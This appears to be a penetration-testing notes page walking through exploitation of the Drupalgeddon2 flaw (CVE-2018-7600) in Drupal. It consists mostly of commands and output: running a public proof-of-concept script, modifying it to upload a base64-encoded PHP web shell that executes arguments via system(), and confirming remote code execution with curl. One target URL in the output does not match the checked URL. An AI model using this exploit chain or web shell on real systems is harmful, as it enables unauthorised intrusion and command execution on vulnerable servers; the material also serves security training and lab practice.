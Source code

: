 ```yaml
---
icon: drupal
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# CVE-2018-7600 (Drupalgeddon2)

{% hint style="info" %}
## Exploit DB

[https://www.exploit-db.com/exploits/44448](https://www.exploit-db.com/exploits/44448)
{% endhint %}

## Exploit Script

{% code title="Command" %}
```bash
python3 drupalgeddon2.py
```
{% endcode %}

{% code title="Output" %}
```bash
################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal.acme.com/

Check: http://drupal.acme.com/hello.txt
```
{% endcode %}

We can check quickly with `cURL` and see that the `hello.txt` file was indeed uploaded.

```bash
curl -s http://drupal.acme.com/hello.txt

;-)
```

Now let's modify the script to gain remote code execution by uploading a malicious PHP file.

```php
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>
```

```bash
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
```

Next, let's replace the `echo` command in the exploit script with a command to write out our malicious PHP script.

```bash
 echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```

Next, run the modified exploit script to upload our malicious PHP file.

{% code title="Command" %}
```bash
python3 drupalgeddon2.py
```
{% endcode %}

```bash
################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupa.acme.com/mrb3n.php
```

Finally, we can confirm remote code execution using `cURL`.

```bash
curl http://drupal.acme.com/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
